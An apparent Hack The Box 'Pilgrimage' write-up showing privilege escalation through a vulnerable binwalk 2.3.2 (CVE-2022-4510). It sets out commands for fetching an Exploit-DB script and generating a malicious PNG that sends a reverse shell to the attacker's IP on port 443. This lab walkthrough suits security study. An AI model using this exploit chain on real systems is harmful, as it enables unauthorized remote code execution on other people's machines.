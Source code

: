 The script seems monitors `var/www/pilgrimage.htb/shrunk/` for any newly created files. When a new file is created, it runs various checks to see if the file is of a "blacklisted" type, and if so, removes the file.

It is using `binwalk` version that is vulnerable
```shell
emily@pilgrimage:~/test$ binwalk

Binwalk v2.3.2
```

In the context of the script, binwalk is used to identify the type or characteristics of the newly-created files. If the file has characteristics that match any in a blacklist, the file is removed.

```shell
┌──(kali㉿kali)-[~/Documents/HTB-Machines/pilgrimage/exploits]
└─$ searchsploit -m 51249
  Exploit: Binwalk v2.3.2 - Remote Command Execution (RCE)
      URL: https://www.exploit-db.com/exploits/51249
     Path: /usr/share/exploitdb/exploits/python/remote/51249.py
    Codes: CVE-2022-4510
 Verified: False
File Type: ASCII text, with very long lines (614)
Copied to: /home/kali/Documents/HTB-Machines/pilgrimage/exploits/51249.py
```

Use the exploit to prepare the file:
```shell
┌──(kali㉿kali)-[~/Documents/HTB-Machines/pilgrimage/exploits]
└─$ chmod +x 51249.py

┌──(kali㉿kali)-[~/Documents/HTB-Machines/pilgrimage/exploits]
└─$ python3 51249.py image.png 10.10.14.12 443

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.


┌──(kali㉿kali)-[~/Documents/HTB-Machines/pilgrimage/exploits]
└─$ ls
51249.py  binwalk_exploit.png  CVE-2022-44268  image.png  pspy64
```
